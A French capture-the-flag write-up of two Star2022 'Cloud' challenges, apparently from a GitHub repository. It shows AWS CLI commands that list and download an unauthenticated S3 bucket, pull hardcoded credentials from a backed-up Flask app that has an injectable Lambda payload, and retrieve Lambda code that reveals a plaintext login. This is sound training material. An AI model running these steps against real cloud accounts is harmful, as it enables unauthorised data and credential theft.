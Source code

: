 # Cloud [1/2]

## Description

Un de vos amis a découvert le monde du cloud, et passe son temps à frimer en utilisant plein de services différents. Le pire, c'est qu'il exige une somme faramineuse pour partager ses connaissances ! On dirait cependant qu'il n'est pas très porté sur la sécurité...

Apparemment, il utilise un système qu'il appelle `Super Stockage Sécurisé` pour sauvegarder ses données. Montrez-lui que le cloud présente aussi des dangers en volant ses sauvegardes !

> Attention ! Les services déployés ne comportent aucune authentification, mais les challenges ne requièrent aucune authentification. Merci de ne rien modifier pour ne pas casser le challenge !

## Writeup

Aperçu du site web :

![](https://github.com/Niceclear/CTF-Writeups/blob/main/Star2022/Cloud/images/1.png)

Le site `...nuagews...` ne renvoie rien.

`Super Stockage Sécurisé` me fait penser à la solution de stockage `S3`.

*Ce site répertorie de la documentation : [AWS - Pentest Book](https://pentestbook.six2dez.com/enumeration/cloud/aws)*

On tente de visualiser les buckets :

```bash
aws s3 ls --endpoint-url endpoint --no-sign-request                       
2022-09-07 08:32:40 backups
```

Il y a un bucket `backups`.

On peut regarder son contenu :

```bash
aws s3 ls s3://backups --endpoint-url endpoint --no-sign-request 

2022-09-07 08:32:41        644 backup-27-08-2022.7z
2022-09-07 08:32:41        582 backup-29-08-2022.7z
```

On peut copier les fichiers du bucket en local :

```bash
aws s3 cp s3://backups ./s3 --recursive --endpoint-url  endpoint --no-sign-request          

download: s3://backups/backup-29-08-2022.7z to s3/backup-29-08-2022.7z
download: s3://backups/backup-27-08-2022.7z to s3/backup-27-08-2022.7z
```

On extrait et on a deux fichiers python.

L'un des deux contient :

```bash
import boto3
from flask import *
import json

app = Flask(__name__)

client = boto3.client('lambda', endpoint_url="http://172.17.0.2:4566", aws_secret_access_key="flag", aws_access_key_id="id")

@app.route('/', methods=["GET", "POST"])
def welcome():
    if request.method == "GET":
        return render_template("welcome.html", logged="empty")
    else:
        username, password = request.form.get("username"), request.form.get("password")
        username, password = username.encode(), password.encode()
        response = client.invoke(
            FunctionName="verify_password",
            Payload=b'{"username": "%b", "password": "%b"}' % (username, password)
        )
        if json.loads(response['Payload'].read())["logged in"]:
            return render_template("welcome.html", logged="Yes")
        else:
            return render_template("welcome.html", logged="No")


if __name__ == "__main__":
    app.run(debug=True)
```

# Cloud [2/2]

## Description

Maintenant que vous avez accédé aux sauvegardes de votre ami, il est temps de prendre le contrôle de son site web !

Récupérez son mot de passe et utilisez-le pour accéder à ses secrets !

Attention, bien que son site ait l'air assez banal, votre ami s'est vanté d'utiliser un système d'authentification infaillible reposant sur le système `Gamma`. Il ne s'agit peut-être pas d'un fonctionnement normal... Ou dirais-je, d'un fonctionnement lambda ?

> Attention ! Les services déployés ne comportent aucune authentification, mais les challenges ne requièrent aucune authentification. Merci de ne rien modifier pour ne pas casser le challenge !

## Writeup

Dans l'un des fichiers python, on peut comprendre qu'il y a des functions lambda. La description de la partie deux parle aussi de lambda.

On peut chercher du côté des fonctions lambda.

Nous avons des identifiants, nous allons les utiliser.

*Documentation :  [AWS CLI - ENV](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-envvars.html)*


```bash
export AWS_ACCESS_KEY_ID=id
export AWS_SECRET_ACCESS_KEY=flag
```

```bash
aws lambda list-functions --endpoint-url endpoint                   
{
    "Functions": [
        {
            "FunctionName": "verify_password",
            "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:verify_password",
            "Runtime": "python3.8",
            "Role": "arn:aws:iam::000000000000:user/xxxxx",
            "Handler": "verify_password.handler",
            "CodeSize": 335,
            "Description": "",
            "Timeout": 3,
            "LastModified": "",
            "CodeSha256": "",
            "Version": "$LATEST",
            "VpcConfig": {},
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "",
            "State": "Active",
            "LastUpdateStatus": "Successful",
            "PackageType": "Zip",
            "Architectures": [
                "x86_64"
            ]
        }
    ]
}
```

Nous récupérons la fonction avec la commande suivante :

```bash
aws lambda  get-function --function-name verify_password  --endpoint-url endpoint                   
{
    "Configuration": {
        "FunctionName": "verify_password",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:verify_password",
        "Runtime": "python3.8",
        "Role": "arn:aws:iam::000000000000:user/xxxxx",
        "Handler": "verify_password.handler",
        "CodeSize": 335,
        "Description": "",
        "Timeout": 3,
        "LastModified": "",
        "CodeSha256": "",
        "Version": "$LATEST",
        "VpcConfig": {},
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip",
        "Architectures": [
            "x86_64"
        ]
    },
    "Code": {
        "Location": "endpoint/2015-03-31/functions/verify_password/code"
    },
    "Tags": {}
}
```

Nous avons l'URL où est localisé le code

```bash
wget http://endpoint/2015-03-31/functions/verify_password/code
mv code code.zip
unzip code.zip

cat verify_password.py 
def handler(event, context):
    if event['username'] == "pseudo" and event['password'] == "password":
        return {"logged in": True}
    else:
        return {"logged in": False}
```

Nous nous connectons avec les identifiants présents dans la fonction :

![](https://github.com/Niceclear/CTF-Writeups/blob/main/Star2022/Cloud/images/2.png)

